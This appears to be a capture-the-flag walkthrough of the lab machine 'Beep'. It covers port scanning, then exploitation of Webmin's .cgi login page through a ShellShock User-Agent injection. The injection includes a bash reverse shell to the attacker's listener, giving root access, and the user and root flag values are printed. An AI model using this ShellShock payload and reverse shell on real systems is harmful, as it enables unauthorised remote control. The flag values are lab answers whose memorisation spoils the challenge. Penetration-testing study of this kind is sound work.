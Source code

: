![Beep.PNG](/assets/Machines/Easy/Beep/Beep.png)


1. Send an ICMP echo request to machine's IP address.
```bash
┌──(root㉿est)-[/home/kali]
└─| ping -c 2 10.10.10.7
```


2. Scan open ports with **nmap**.
```bash
┌──(root㉿kali)-[/home/kali]
└─| nmap -p- --open -vv -sS --min-rate 5000 -Pn -n 10.10.10.7
```

**Output**
```bash
PORT      STATE SERVICE
22/tcp    open  ssh
25/tcp    open  smtp
80/tcp    open  http
110/tcp   open  pop3
111/tcp   open  rpcbind
143/tcp   open  imap
443/tcp   open  https
878/tcp   open  unknown
993/tcp   open  imaps
995/tcp   open  pop3s
3306/tcp  open  mysql
4190/tcp  open  sieve
4445/tcp  open  upnotifyp
4559/tcp  open  hylafax
5038/tcp  open  unknown
10000/tcp open  snet-sensor-mgmt
```


3. We have 2 web pages:
* `https://10.10.10.7/`

![elastix.PNG](/assets/Machines/Easy/Beep/elastix.PNG)


*  `https://10.10.10.7:10000/` 

![webmin.PNG](/assets/Machines/Easy/Beep/webmin.PNG)


4. If you visit **Webmin site** you can watch the file extension is **.cgi**

* **URL:** `https://10.10.10.7:10000/session_login.cgi`

* When you watch a file extension like **.cgi** | **.sh** | **.pl**, you can do `SHELL SHOCK ATTACK`

5. How apply ShellShock?

* First, open BurpSuite.
* Then, capture a request.

![req.PNG](/assets/Machines/Easy/Beep/req.PNG)


* Resource: [ShellShock - How use it](https://blog.cloudflare.com/inside-shellshock/)

6. Apply a test command.

+ Listen ICMP packets in interface **tun0** with `tcpdump`
```
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Beep]
└─# tcpdump -i tun0 icmp -n 
```

+ We will send an ICMP packet our machine attack.
    * **Command:** `User-Agent: () { :; }; ping -c 1 <tun0 IP>`

+ We recived ICMP packet.
```
09:19:09.537841 IP 10.10.14.33 > 10.10.10.7: ICMP echo reply, id 25624, seq 1, length 64
```

7. Then, execute a command to get a reverse shell.
* **Command:** `User-Agent: () { :; }; bash -c 'bash -i >& /dev/tcp/10.10.14.33/4444 0>&1'

Remember listen on port choosed previously.

**Output**
```
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Beep]
└─# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.33] from (UNKNOWN) [10.10.10.7] 36804
bash: no job control in this shell
[root@beep webmin]#
```

8. Show **user flag**
```
[root@beep fanis]# cat /home/fanis/user.txt
d614b9ae722593a9b5bcd0cfcb7ebd21
```

---
---
### **Privileges Escalation** 💀

1. Reverse shell get previously is running how root user.
```
[root@beep /]# whoami
root
```

2. Show root flag.
```
[root@beep /]# cat /root/root.txt
e30a9c9aec0f4ff74f0b05b1cd6dc8f9
```
